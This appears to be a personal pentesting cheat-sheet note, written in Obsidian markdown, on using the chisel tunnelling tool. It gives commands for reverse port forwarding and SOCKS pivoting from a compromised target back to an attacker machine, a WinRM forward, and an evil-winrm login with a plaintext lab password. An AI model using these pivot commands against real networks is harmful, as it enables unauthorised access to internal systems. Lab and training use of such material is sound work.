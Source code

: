```yaml
---
creation date: March 21st 2023
last modified date: March 21st 2023
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[chisel]]  
___

## Description:
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server.

## Installation
[chisel](https://github.com/jpillora/chisel)

If you go to releases you can download the exe by OS. I typically use `chisel_1.8.1_linux_amd64` for my Kali machine and Linux targets

For Windows:
Go to the release page, get URL for 32bit or 64bit ( I used https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_windows_386.gz), wget, gunzip, change name to chisel.exe


## Commands

### Port to Port proxy
This will be way faster than a socks proxy, do it this way if you need to visit a webpage or just need to port foward to one service
```
On kali:
./chisel server --reverse -p 9090
On target:
./chisel client 10.10.14.80:9090 R:8001:127.0.0.1:8001
```
In this example just visit `http://127.0.0.1:8001` in the browser without a proxy and you should hit the internal webpage.

**to forward winrm:**
your machine
`./chisel server --reverse -p 9002

pivot machine:
`./chisel client <your_machine>:9002 R:5985:172.16.22.1:5985

Login with evil-winrm:
`evil-winrm -i 10.10.14.95 -u 'matthew' -p '147258369'

### socks server
On your machine:
`./chisel server --reverse -p 1080`

On remote machine:
`chisel32.exe client 10.10.14.95:1080 R:socks`

To use in the browser, set foxy proxy to socks5, 127.0.0.1, 1080.
To use with burp, set browser to use burp proxy, then set socks proxy in burp by going to settings, network, connections

To use with proxychains:
`sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf``
(might be socks5)

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: March 21st 2023 (09:42 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

